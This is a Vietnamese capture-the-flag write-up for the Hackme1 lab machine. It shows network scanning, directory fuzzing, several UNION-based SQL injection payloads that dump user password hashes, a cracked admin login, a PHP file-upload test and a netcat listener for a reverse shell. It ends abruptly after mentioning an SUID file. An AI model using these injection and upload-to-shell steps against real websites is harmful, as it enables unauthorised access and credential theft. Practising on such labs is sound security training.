# Hackme1
***

### Network Scanning

Đầu tiên tìm địa chỉ ip mục tiêu

```sudo netdiscover -i eth0 -r 192.168.169.0/24```



**Target IP: 192.168.169.139**

Tiếp theo scan các dịch vụ và cổng đang mở

```sudo nmap -sV -O 192.168.169.139```



+ Port 22: SSH
+ Port 80: Apache httpd 2.4.34

### ENUMERATION

Discovery

```ffuf -w /usr/share/wordlists/dirb/common.txt -e .php,.zip,.txt -u http://192.168.169.139/FUZZ```



Thử truy cập vào port 80



Hiện thị một trang login và sign up



Thử đăng nhập, hiện giao diện cho phép tìm kiếm





Thử SQLi

```' UNION SELECT null,null,null-- a```



```' UNION SELECT null,table_name,null FROM information_schema.tables-- a```




Tìm thấy một bảng ```users``` 

```' UNION SELECT null,column_name,data_type FROM information_schema.columns WHERE table_name='users'-- a ```



```' UNION SELECT user,pasword,name FROM users-- a```



Thu được một bảng hash




Sau khi crack password thu được mật khẩu ```superadmin:Uncrackable```

Sau khi đăng nhập với tài khoản ```superadmin``` được điều hướng tới trang ```welcomeadmin.php```



Trang web cho biết upload file, thử upload file test.php

```<?php phpinfo(); ?>```

Sau khi truy cập thì thấy lệnh ```phpinfo()``` được thực thi, tiếp theo có thể thực hiện upload 1 reverse .

```nc -lvnp 1234```



Tìm thấy một file thú vị được set quyền SUID


## COMPLETE!!!